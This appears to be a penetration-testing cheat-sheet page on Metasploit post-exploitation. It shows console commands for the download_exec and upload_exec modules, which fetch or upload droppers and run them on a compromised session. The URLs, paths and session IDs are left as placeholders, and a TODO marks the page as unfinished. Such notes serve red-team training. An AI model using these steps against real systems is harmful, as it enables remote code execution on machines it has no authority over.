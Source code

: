 # Metasploit

Search Tag(s): #post-exploitation #enumeration-and-discovery #metasploit-framework #linux

TODO: Fill this info

Download and execute bash file

```
msf > use post/linux/manage/download_exec

msf post(linux/manage/download_exec) > options 

Module options (post/linux/manage/download_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on
   URL                       yes       Full URL of file to download.


View the full module info with the info, or info -d command.

msf post(linux/manage/download_exec) > set session <session_ID>

msf post(linux/manage/download_exec) > set url <URL>

msf post(linux/manage/download_exec) > run
```

Upload file droppers and execute it with arguments.

```
msf > use post/multi/manage/upload_exec

msf post(multi/manage/upload_exec) > options 

Module options (post/multi/manage/upload_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   ARGS                      no        Command-line arguments to pass to the uploaded file
   LPATH                     yes       Local file path to upload and execute
   RPATH                     no        Remote file path on target (default is basename of LPATH)
   SESSION                   yes       The session to run this module on
   TIMEOUT  60               yes       Timeout for command execution


View the full module info with the info, or info -d command.

msf post(multi/manage/upload_exec) > set lpath /path/to/local/file

msf post(multi/manage/upload_exec) > set args "[arguments]"

msf post(multi/manage/upload_exec) > set rpath /path/to/remote/file

msf post(multi/manage/upload_exec) > set session <session_ID>

msf post(multi/manage/upload_exec) > run
```

---
## References

- [Rapid7: Metasploit Framework Upload Exec Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/multi/manage/upload_exec.md)